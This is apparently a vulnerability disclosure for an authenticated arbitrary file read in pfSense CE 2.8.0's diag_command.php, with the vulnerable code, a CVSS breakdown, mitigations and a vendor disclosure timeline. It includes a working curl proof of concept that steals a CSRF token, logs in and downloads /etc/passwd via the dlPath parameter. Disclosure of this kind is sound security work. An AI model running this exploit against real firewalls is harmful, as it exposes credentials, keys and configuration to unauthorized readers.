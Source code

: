 # Arbitrary File Read in pfSense 2.8.0 via Diagnostics Web Interface

#### CVE ID: *Pending*

#### Date: 2025-06-27

#### Author: Seth Kraft

#### Vendor Homepage: [https://www.netgate.com/](https://www.netgate.com/)

#### Vendor Changelog: [https://docs.netgate.com/pfsense/en/latest/releases/](https://docs.netgate.com/pfsense/en/latest/releases/)

#### Software Link: [https://www.pfsense.org/download/](https://www.pfsense.org/download/)

#### Version: pfSense CE 2.8.0 (latest stable as of June 26, 2025)

#### CWE: CWE-552 (Files or Directories Accessible to External Parties)

#### Estimated CVSS Base Score: 6.5 (Medium)

#### Estimated Vector String: `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N`

#### Type: Authenticated Arbitrary File Read / Local File Disclosure

---

## Authorization

**For authorized testing and research purposes only.** Do not test or exploit this vulnerability on systems you do not own or have explicit permission to test.

---

## Summary

pfSense CE 2.8.0 contains a Local File Disclosure vulnerability in the diagnostics page `diag_command.php`, which allows authenticated users to download arbitrary files from the underlying file system.

An attacker with privileged web access can supply an arbitrary path in the `dlPath` parameter to exfiltrate sensitive files. 

This functionality lacks any path sanitization, directory restriction, or access controls beyond permission assignment.

---

## Details

The vulnerable logic is located in the file `src/usr/local/www/diag_command.php`:

```php
if ($_POST['submit'] == "DOWNLOAD" && file_exists($_POST['dlPath'])) {
    session_cache_limiter('public');
    send_user_download('file', $_POST['dlPath']);
}
```

There are no security checks or sanitization measures applied to the user-controlled `dlPath` parameter. 

Any file path the PHP process can read will be served back to the user.

---

## Proof of Concept

**Create `low-priv` group and assign a single privilege** (`WebCfg - Diagnostics: Command`)
![Screenshot 2025-06-27 133201](https://github.com/user-attachments/assets/b1063a5c-442a-4628-ac94-e0fa5d6f10c4)

> I appreciate the built-in security warning related to assigning the `WebCfg - Diagnostics: Command` privilege. But this disclaimer does not constitute as proper access control.
>
> A permission in a web interface should be scoped based on its label and intended use — not assumed to equate to root-level access on the underlying operating system.

**Assign `low-priv` group to** `dev` **user**
![Screenshot 2025-06-27 133218](https://github.com/user-attachments/assets/7224934e-ae31-4aa1-b879-b4f1aee7e00c)

This proof-of-concept demonstrates a user assigned with only `WebCfg - Diagnostics: Command` permission can exfiltrate `/etc/passwd` by abusing the unsanitized `dlPath` parameter.

```bash
# 1. Start session and extract CSRF token
curl -k -c cookies.txt -s https://<IP>/diag_command.php > login_page.html
csrf_token=$(grep '__csrf_magic' login_page.html | grep 'value=' | sed -E 's/.*value="([^"]+)".*/\1/')

# 2. Authenticate as low-privileged user "dev"
curl -k -b cookies.txt -c cookies.txt \
  -d "__csrf_magic=$csrf_token" \
  -d "usernamefld=dev" \
  -d "passwordfld=pass" \
  -d "login=Sign+In" \
  https://<IP>/index.php > /dev/null

# 3. Get CSRF token post-login
curl -k -b cookies.txt -s https://<IP>/diag_command.php > diag_authed.html
csrf_token=$(grep '__csrf_magic' diag_authed.html | grep 'value=' | sed -E 's/.*value="([^"]+)".*/\1/')

# 4. Exfiltrate arbitrary file (example: /etc/passwd)
curl -k -b cookies.txt -s -X POST https://<IP>/diag_command.php \
  -d "__csrf_magic=$csrf_token" \
  -d "submit=DOWNLOAD" \
  -d "dlPath=/etc/passwd"
```

---

## Demo
![pfSense-authenticated-file-disclosure-poc](https://github.com/user-attachments/assets/0dfe9727-aab4-4b17-bcb9-5a69998549a5)

---

## Impact

Any pfSense user assigned the `WebCfg - Diagnostics: Command` privilege can:

* Read sensitive local system files
* Extract backups, credentials, and keys
* Access files far beyond their intended permissions

This violates the principle of least privilege and breaks logical privilege boundaries.

---

## Suggested Mitigation

1. Restrict `dlPath` to a safe base directory (e.g., `/tmp`) using `realpath()` and prefix enforcement
2. Strip or block paths with `..` or absolute paths
3. Only allow downloads of files in a safelist or temporary artifact directory

---

## Disclosure Timeline

* **2025-06-26:** Vulnerability reported to Netgate
* **2025-06-27:** Netgate responded, dismissing the issue as intended behavior
* **2025-06-27:** Researcher responded with technical rebuttal, but vendor reiterated dismissal
* **2025-06-27:** Researcher initiated public disclosure due to final vendor dismissal

![image](https://github.com/user-attachments/assets/8317dd1d-95c7-4000-a942-f9435d40cfa8)

> While the vendor asserts that access to this page equates to root, this conflates web-level permissions with unrestricted backend access.
>
> Privilege should be technically enforced — not assumed — and warnings in the UI are no substitute for secure design.

The diagnostics web module on a firewall should include proper safeguards to prevent abuse against the underlying operating system.

* Diagnostic commands should be functionally limited to ping, traceroute, log view, etc.
* Commands should run inside a restricted shell or chroot.
* File access should be explicitly scoped to safe directories (/tmp, /var/log).
* Permissions should be fine-grained, and clear in scope.

---

## Estimated CVSS Breakdown

| Metric                      | Value         | Justification                                          |
| --------------------------- | ------------- | ------------------------------------------------------ |
| **AV: Attack Vector**       | N (Network)   | Exploitable via the pfSense web interface over HTTPS   |
| **AC: Attack Complexity**   | L (Low)       | Straightforward POST request with valid CSRF token     |
| **PR: Privileges Required** | L (Low)       | Requires only `WebCfg - Diagnostics: Command` permission |
| **UI: User Interaction**    | N (None)      | No additional interaction needed                       |
| **S: Scope**                | U (Unchanged) | Same component boundary (web app reads system file)    |
| **C: Confidentiality**      | H (High)      | Arbitrary file read, including credentials and configs |
| **I: Integrity**            | N (None)      | No tampering                                           |
| **A: Availability**         | N (None)      | No denial-of-service                                   |

> Note: I selected `PR: Low` since the exploit only requires a narrowly scoped permission (`WebCfg - Diagnostics: Command`) and did not explicitly grant the user full admin permissions.

**Estimated CVSS Base Score: 6.5 (Medium)**
